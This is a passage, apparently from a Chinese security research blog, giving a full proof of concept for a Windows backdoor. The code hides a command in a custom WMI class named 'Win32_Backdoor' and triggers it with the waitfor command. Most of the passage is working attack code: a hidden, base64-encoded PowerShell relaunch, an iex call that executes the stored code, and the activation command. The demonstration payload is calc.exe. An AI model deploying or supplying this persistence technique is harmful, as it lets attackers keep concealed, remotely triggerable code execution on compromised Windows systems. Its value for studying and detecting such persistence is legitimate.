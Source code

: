**注：**

存在两次转义字符 

```
 ``用来表示`
```
 

安装代码：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec
```

激活命令：

`waitfor /s 127.0.0.1 /si persist`

实际测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-4.png)

存在bug，导致powershell.exe无法正常退出，进程在后台残留

所以需要添加一段代码，用来结束进程powershell.exe

**注：**

根据逻辑关系，结束powershell.exe的代码要写在`powershell -nop -W Hidden -E ...`之前


最终，完整POC代码如下：


后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor persist ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() | Out-Null

$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec | Out-Null
```

激活命令：

`waitfor /s 127.0.0.1 /si persist`


完整演示如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/1-2.gif)
